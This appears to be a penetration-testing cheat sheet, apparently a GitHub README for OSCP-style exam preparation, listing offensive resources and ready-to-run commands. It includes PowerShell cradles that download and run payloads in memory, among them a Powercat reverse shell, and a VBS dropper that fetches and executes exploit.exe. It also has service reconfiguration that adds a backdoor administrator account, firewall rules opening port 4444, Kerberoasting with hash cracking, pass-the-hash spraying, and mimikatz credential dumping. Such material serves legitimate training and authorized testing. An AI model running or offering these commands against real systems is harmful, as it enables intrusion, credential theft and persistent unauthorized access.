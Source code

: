 
## Reverse Shell Generator

https://www.revshells.com/

https://github.com/ferreirasc/oscp/tree/master/payloads

## One liner reverse shells

https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

## Windows Privesc Additional Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

https://www.fuzzysecurity.com/tutorials/16.html

## Linux Privesc Additional Resources

https://book.hacktricks.xyz/linux-hardening/privilege-escalation

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://guif.re/linuxeop

## File Transfers Additional Resources

https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

## Precompiled Binaries / exploits

https://github.com/SecWiki/windows-kernel-exploits

https://github.com/SecWiki/linux-kernel-exploits

## mimikatz

https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa

https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#open-shares

## Powershell Usefull Cradles to Download File

```
powershell.exe -NoP -NonI -Exec Bypass IEX "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.117/shell443.exe','shell443.exe')"
```

## Powershell Usefull Cradles to Download Script to memory and Execute it

This Example will download Powercat to memory and execute a reverse shell using Powercat without touching the disk

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString("http://172.16.242.173/powercat.ps1"); powercat -c 172.16.242.173 -p 4444 -e cmd.exe
```

You can use this technique to download any script to memory and execute functions from it like Powerview also

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/powerview.ps1'); Get-DomainController
```

## VBS Cradle to Download Transfer File and Execute it

Transfer exploit.exe from your kali server to the target server and execute it

```
cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs&@echo objXMLHTTP.open "GET","http://192.168.119.142/exploit.exe",false>>poc.vbs&@echo objXMLHTTP.send()>>poc.vbs&@echo If objXMLHTTP.Status=200 Then>>poc.vbs&@echo Set objADOStream=CreateObject("ADODB.Stream")>>poc.vbs&@echo objADOStream.Open>>poc.vbs&@echo objADOStream.Type=1 >>poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.vbs&@echo objADOStream.Position=0 >>poc.vbs&@echo objADOStream.SaveToFile "exploit.exe">>poc.vbs&@echo objADOStream.Close>>poc.vbs&@echo Set objADOStream=Nothing>>poc.vbs&@echo End if>>poc.vbs&@echo Set objXMLHTTP=Nothing>>poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>poc.vbs&@echo objShell.Exec("exploit.exe")>>poc.vbs&cscript.exe poc.vbs"
```

## Reconfigure Service

Reconfigure Service:

```
sc config ServiceName depend= "" start= demand binpath= "C:\Inetpub\wwwroot\shell443.exe" obj= ".\LocalSystem" password= ""
sc config ServiceName binPath= "cmd /c net user haxxor haxxor123 /add && net localgroup Administrators haxxor /add && net localgroup 'Remote Desktop Users' haxxor /add"
```
## Open /Allow Ports in Firewall
Allow Ports 80, 443 and 4444 as Inbound and outbound rules in the firewall (needs admin priveleges)
```
netsh advfirewall firewall add rule action=allow name=tunnelI dir=in protocol=tcp localport='80,443,4444'
netsh advfirewall firewall add rule action=allow name=tunnelO dir=out protocol=tcp remoteport='80,443,4444'
```
## Active Directory Resource

### Import Powerview into memory and execute commands

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/powerview.ps1'); Get-DomainController
```

### Powerview Reference

https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview

### Active Directory Reference

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

## Kerberoasting

InvokeKerberoast powershell script will request a service ticket from the DC for the service accounts which you can then copy and crack

```
IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/Invoke-Kerberoast.ps1')
Invoke-Kerberoast -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath 'c:\users\public\HashCapture.txt' -Width 8000
hashcat -m 13100 -o cracked.txt -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

## Password Spraying using crackmapexec

```
crackmapexec smb 192.168.101.0/24 --local-auth -u Administrator -H a0989207854b684f07b5b6fe68169a35
crackmapexec smb 192.168.101.0/24 -u vixx -H 'aad3b435b51404eeaa35b51404ee:a0989207854b684f07b5b6fe68169a35'
```

## OverPass the hash using mimikatz commands

Dump hash and open a cmd shell as vixx using mimikatz(over pass the hash)

```
privilege::debug
sekurlsa::logonpasswords
sekurlsa::pth /user:vixx /domain:vixx.domain /ntlm:a0989207854b684f07b5b6fe68169a35 /run:PowerShell.exe
```

## Dump Local users NTLM hashes using mimikatz

```
privilege::debug
token::elevate
lsadump::sam
```
